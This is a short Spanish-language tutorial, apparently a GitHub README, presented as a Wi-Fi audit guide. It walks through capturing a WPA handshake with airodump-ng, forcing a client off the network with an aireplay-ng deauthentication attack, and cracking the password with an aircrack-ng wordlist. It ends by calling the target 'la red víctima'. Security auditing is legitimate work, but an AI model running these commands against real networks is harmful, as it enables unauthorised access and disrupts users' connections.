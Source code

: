# Guía de uso Aircrack-ng

![Informatica](Img/logo.jpg)

Aircrack-ng es una suite de programas que nos permitirán realizar auditorías inalámbricas Wifi a routers y puntos de acceso Wifi. 

En esta Guía aprenderás a como realizar una auditoría a una red wifi con una lista de
contraseñas.
## Requisitos

* Kali Linux

* Tarjeta de Wifi con modo monitor

## USO
Lo primero será iniciar el modo monitor de nuestra tarjeta con airmon-ng. Se recomienda estar en usuario
root

```
iwconfig 
airmon-ng 
airmon-ng start wlan0 
airmon-ng check kill
```

![Informatica](Img/iwconfig.jpg)

Luego iniciamos el escaneo de redes wifi que hay a nuestro alrededor.

```
airodump-ng wlan0
```

![Informatica](Img/scan.jpg)

Ahora seleccionamos el canal de la red, luego agregamos un nombre para guardar el archivo de captura y por
último el BSSID de la red.

```
airodump-ng -c 6 -w auditoria-wifi --bssid 06:A1:51:9A:2F:2F wlan0
```

Como podemos observar solo 1 dispositivo está conectado a la red este dispositivo será la clave para poder
entrar a la red, lo primero que haremos será desconectar el dispositivo de la red. Primero seleccionamos el
número de veces que va a desautenticar el dispositivo luego seleccionamos el BSSID de la red y por último el
BSSID del dispositivo.

```
aireplay-ng -0 50 -a 06:A1:51:9A:2F:2F -c 2E:C7:CB:0E:98:C4 wlan0
```

![Informatica](Img/desconectar.jpg)
Ahora la fase final será usar nuestro archivo de captura y nuestra lista de contraseñas para poder saber la
contraseña de la red. Ingresamos primero la ubicación de la lista de contraseñas luego el BSSID del al red y
por último el archivo de captura.

```
aircrack-ng -w /root/Hacking/Diccionarios/wifi.txt -b 06:A1:51:9A:2F:2F auditoriawifi-
01.cap
```

![Informatica](Img/contraseña.jpg)

Como podemos ver hemos conseguido la contraseña de la red víctima, dependiendo la contraseña aircrackng
tardara en descifrar la contraseña de la red.